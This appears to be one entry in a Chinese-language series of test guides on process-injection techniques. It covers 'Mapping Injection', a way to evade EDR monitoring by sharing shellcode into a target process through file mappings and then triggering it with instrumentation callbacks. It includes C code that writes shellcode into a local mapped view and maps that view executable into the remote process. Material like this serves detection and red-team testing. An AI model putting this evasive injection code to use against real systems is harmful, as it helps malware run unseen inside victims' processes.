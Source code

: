 # 技术 17: Mapping Injection 测试指南

## 技术概述

**Mapping Injection** 是一种高级隐蔽的进程注入技术，通过使用内存映射和进程插桩回调（Process Instrumentation Callback）来避免传统注入技术中被EDR严格监控的API调用。

### 核心原理

**传统注入的syscall模式**：
```
OpenProcess → VirtualAllocEx → WriteProcessMemory → CreateRemoteThread
                    ↑                  ↑                      ↑
                EDR重点监控         EDR重点监控           EDR重点监控
```

**Mapping Injection的syscall模式**：
```
OpenProcess → CreateFileMapping → MapViewOfFile3(本地) → MapViewOfFile3(远程) → NtSetInformationProcess
                    ↑                     ↑                        ↑                          ↑
                合法文件映射            写入本地映射            共享到远程进程              设置回调
```

### 关键技术点

#### 1. 内存映射（Memory Mapping）

**优势**：
- 不使用 `VirtualAllocEx` - 避免内存分配监控
- 不使用 `WriteProcessMemory` - 避免跨进程写入监控
- 两个进程共享同一块物理内存，数据自动同步

**实现**：
```c
// 1. 创建匿名文件映射对象
HANDLE hFileMap = CreateFileMapping(
    INVALID_HANDLE_VALUE,    // 匿名映射
    NULL,
    PAGE_EXECUTE_READWRITE,
    0,
    bufferSize,
    NULL
);

// 2. 映射到本地进程（用于写入数据）
LPVOID lpLocal = MapViewOfFile3(
    hFileMap,
    GetCurrentProcess(),     // 本地进程
    NULL, 0, 0, 0,
    PAGE_READWRITE,          // RW权限
    NULL, 0
);
memcpy(lpLocal, shellcode, size);

// 3. 映射到远程进程（共享数据）
LPVOID lpRemote = MapViewOfFile3(
    hFileMap,
    hTargetProcess,          // 目标进程
    NULL, 0, 0, 0,
    PAGE_EXECUTE_READ,       // RX权限
    NULL, 0
);
```

